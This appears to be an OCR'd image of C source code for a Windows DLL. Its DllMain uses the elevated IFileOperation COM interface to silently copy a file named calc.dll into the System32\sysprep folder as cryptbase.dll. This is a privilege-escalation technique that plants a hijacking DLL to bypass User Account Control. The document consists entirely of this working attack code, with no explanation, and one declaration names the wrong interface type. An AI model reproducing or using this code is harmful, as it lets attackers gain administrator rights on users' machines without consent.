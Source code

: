 ~~~
#include <stdio.h>
#include <Shobjidl.h>
#include <Windows.h>

#pragma comment(lib, "Ole32.lib")
#pragma comment(lib, "shell32.lib")

int WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
FileOperation  *pfo;
IShellItem      *psiFrom = NULL;
IShellItem      *psiTo = NULL;
LPCWSTR pszSrcItem = L"calc.dll";
LPCWSTR pszNewName = L"cryptbase.dll";
LPCWSTR pszDest    = L"C:\\windows\\System32\\sysprep";

HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);
if (SUCCEEDED(hr))
{
 hr = CoCreateInstance(CLSID_FileOperation, NULL, CLSCTX_ALL, IID_PPV_ARGS(&pfo));
 if (SUCCEEDED(hr))
 {
 hr = pfo->SetOperationFlags( FOF_NOCONFIRMATION |
 FOF_SILENT |
 FOFX_SHOWELEVATIONPROMPT |
 FOFX_NOCOPYHOOKS |
 FOFX_REQUIREELEVATION |
 FOF_NOERRORUI );
 if (SUCCEEDED(hr))
 {
 hr = SHCreateItemFromParsingName(pszSrcItem, NULL, IID_PPV_ARGS(&psiFrom));
 if (SUCCEEDED(hr))
 {
 if (NULL != pszDest)
 {
 hr = SHCreateItemFromParsingName(pszDest, NULL, IID_PPV_ARGS(&psiTo));
 }
 if (SUCCEEDED(hr))
 {
 hr = pfo->CopyItem(psiFrom, psiTo, pszNewName, NULL);
 if (NULL != psiTo)
 {
 psiTo->Release();
 }
 }
 psiFrom->Release();
 }
 if (SUCCEEDED(hr))
 {
 hr = pfo->PerformOperations();
 }
 }
 pfo->Release();
 }
 CoUninitialize();
 }
 return 0;
}
~~~
